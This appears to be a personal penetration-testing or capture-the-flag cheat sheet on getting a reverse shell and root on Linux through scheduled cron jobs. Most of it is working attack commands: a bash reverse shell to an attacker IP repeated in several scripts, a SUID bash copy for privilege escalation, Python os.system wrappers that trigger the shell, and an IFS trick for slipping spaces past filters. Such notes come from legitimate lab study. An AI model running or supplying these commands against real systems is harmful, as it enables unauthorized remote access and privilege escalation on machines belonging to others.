 
```sh
#!/bin/bash

bash -i >& /dev/tcp/10.18.21.236/443 0>&1
```

<font color="red">Don't forget to make sure your script file is executable `chmod +x [script]`
cron won't run without both #! and +x</font>
Also testrun shell as current user before waiting for scheduled job to run

---

If you get the error:
`mksudo.sh: 8: mksudo.sh: Syntax error: Bad fd number`
you're running with sh, not bash

---

`${IFS%??}` = space as in `which${IFS%??}bash`

^works on bash, not on zsh

Reverse shell:
`/bin/bash -i >& /dev/tcp/10.18.21.236/443 0>&1`

-i   interactive
`>&`: redirects both standard output (stdout) and standard error (stderr)
`0>&1`: redirects the standard input (stdin) to the same destination as standard output. This ensures that any input intended for the shell is also sent over the network connection to the attacker's machine.

-l   executes `~/.bash_profile`, `~/.bash_login`, or `~/.profile` (in that order) and inherits environment variables set in those files

rev shell file:
```sh
#!/bin/bash
bash -i >& /dev/tcp/10.18.21.236/443 0>&1
```

To run with existing cronjob or similar:
```sh
#!/bin/bash
cp /bin/bash /tmp/mybash
chmod +xs /tmp/mybash
```
chmod +x /home/user/whatever.sh
/tmp/mybash -p

---
alternative

nano revsh.sh
```sh
#!/bin/bash
bash -i >& /dev/tcp/10.18.21.236/443 0>&1
```
in python code run by system (like crontab)
```python
import os

os.system("touch /tmp/testfile")
os.system("bash /tmp/revsh.sh")
```


